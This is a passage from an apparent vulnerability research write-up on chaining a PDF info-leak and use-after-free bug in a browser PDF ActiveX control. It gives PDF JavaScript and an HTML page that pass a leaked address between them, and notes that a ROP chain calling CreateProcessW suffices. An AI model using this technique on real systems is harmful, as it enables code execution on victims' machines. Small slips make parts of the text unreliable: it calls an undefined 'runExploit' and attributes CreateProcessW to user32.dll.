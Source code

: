 #### Issue 2: PDF file => HTML file. 

The info leak bug is exploited in the PDF file, so it is necessary to return the leaked addr into my javascript code in order to continue the exploitation.

**Solution.**

This was still easier to solve because last year i had found **an interesting old dev document** which explained how to use this ActiveX control in detail. This also helped me to find out another UAF in this component.
 
```cpp
object messageHandler { get; set; }
void OnMessage();
```

In javascript of PDF file (poc.pdf):

```js
this.hostContainer.postMessage(["Foo"]);
```

HTML file:

```html
<script>
    function onMessageHandler(message){
        // print in the console: "Message is: Foo"
        console.log("Message is: " + message);
    }
    function main(){
        var pdfobj = document.getElementById("pdfobj");
        if(typeof pdfobj.readyState === 'undefined'){
            pdfobj.messageHandler = { onMessage: onMessageHandler };  
            return;
        }
        if(pdfobj.readyState==4){
            pdfobj.messageHandler = { onMessage: onMessageHandler };
        }else{
            setTimeout(runExploit, 500);
        }
    }
</script>
<body onload="main();">
    <object id="pdfobj" classid="clsid:CA8A9780-280D-11CF-A24D-444553540000" height="0%" width="0%">
        <param name="src" value="poc.pdf"/>
    </object>
</body>
``` 

That is the code needed to establish a communication between PDF file and HTML file.

For the ROP chain and as the ActiveX component is not compiled with /CFG, a simple ROP chain that calls **"CreateProcessW" into user32.dll is the only requirement**. 
